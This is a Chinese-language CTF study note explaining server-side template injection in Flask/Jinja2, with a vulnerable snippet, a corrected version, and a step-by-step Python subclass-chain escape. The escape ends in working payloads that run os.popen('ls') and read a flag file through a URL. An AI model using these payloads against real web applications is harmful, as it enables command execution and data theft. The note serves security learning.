

<center>SSTI</center>

> 全称server-site template inject(服务端模板注入攻击)


此处用我在CTF中的[一道题](https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5408&page=1)演示

> 该web使用的是python的flask框架
>
> flask的渲染引擎是`jinja2`


众所周知，`python`的web框架里jinja2是用`{{}}`来作为变量包裹标识符

```
存在漏洞的代码

@app.route('/test/')
def test():
    code = request.args.get('id')
    html = '''
        <h3>%s</h3>
    '''%(code)
    return render_template_string(html)
```

> 上面代码中会直接接收用于传过来的值，然后渲染到模板上去。

>  如果我构建的`id`值是一串js代码的话，也会被执行。``

此代码存在漏洞的原因是数据和代码混淆，代码中的`code`是用户可控的，会和html拼接后直接带入渲染


修改为正确代码：

```
将代码改为如下，就可以自动的过滤用户的输出：

@app.route('/test/')
def test():
    code = request.args.get('id')
    return render_template_string('<h1>{{ code }}</h1>',code=code)
```

> 在这段代码中用户所控的是code变量，而不是模板内容。

>  模板引擎一般都默认对渲染的变量值进行编码转义


#### 文件包含


> 基于上面有漏洞的代码


同样的和上面漏洞类似：

CTF中：



> 可以看到此处的CTF中也是那个漏洞：代码和数据混淆


而在python中因为使用的是`jinja2`。所以`{{}}`和``都会被系统认为是python代码。

通过这种方式就可以构建特定的`payload`来找到我们的flag。


先看看下面几个魔术方法：

```
__class__  返回对象所属的类
__mro__    返回当前类的所有父类，按从小到大排序。最后面的是超类
__base__   返回当前类的父类
// __base__和__mro__都是用来寻找基类的

__subclasses__   返回当前类的子类列表。注意要加上()。__subclasses__()。因为其本身是个方法
__init__  		 类的初始化方法
__globals__  	 对包含函数全局变量的字典的引用
func_globals	 返回一个包含函数全局变量的字典引用。返回的是键值对。
```


1. 获取字符串对象

```
>>> ''.__class__
<type 'str'>
```


2. 寻找字符串所有基类

```
>>> ''.__class__.__mro__
(<type 'str'>, <type 'basestring'>, <type 'object'>)
```


3. 寻找可用的子类

```
>>> ''.__class__.__mro__[2].__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type
	……省略大量输出
<class 'werkzeug.test.Client'>] not found
```

找到其中的`warnings.catch_warnings`模块，在第`59`个


4. 寻找可用的全局函数引用。(其中的还是模块)

```
>>> ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals																	//返回的是一个字典
{<function filterwarnings at 0x7fe4bc0b6a28>, 'once_registry': {}, 'WarningMessage': <class 'warnings.WarningMessage'>, '_show_warning': <function _show_warning at 0x7fe4bc0b69b0>, 'filters': [('ignore', <_sre.SRE_Pattern object at 0x7fe4bc037a50>, <type 'exceptions.DeprecationWarning'>, <_sre.SRE_Pattern object at 0x7fe4bc139a80>, 0), ('ignore', None, <type 'exceptions.DeprecationWarning'>, None, 0),
省略大量输出
'linecache': <module 'linecache' from '/usr/lib/python2.7/linecache.pyc'>
省略输出
}
```

找到其中的`linewaring`模块。


5. 使用`linecache`下的eval，查看当前目录下文件

```
>>> ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls").read()')

fl4g index.py
```


6. 查看文件`fl4g`

```
>>> ''.__class__.__mro__[2].__subclasses__()[40]("fl4g").read()
```

> 这就是一个payload。40是`file`类。


上面的`1~6`的流程，直接套进CTF题就行了。例如：

```
http://111.198.29.45:57724/{{''.__class__.__mro__[2].__subclasses__()[40]("fl4g").read()}}
```


模板注入本身就会产生xss漏洞。而且在此基础上甚至能`getshell`

​	没懂得话，看一下几篇文章

```
https://www.kingkk.com/2018/06/Flask-Jinja2-SSTI-python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/

https://www.freebuf.com/column/187845.html

https://www.cnblogs.com/tr1ple/p/9415641.html

https://xz.aliyun.com/t/2908								//这篇文章没有看懂

https://www.cnblogs.com/mke2fs/p/11523005.html			//该CTF题的答案
```


看了这几篇文章过后，不知道为什么我不能使用`__dict__`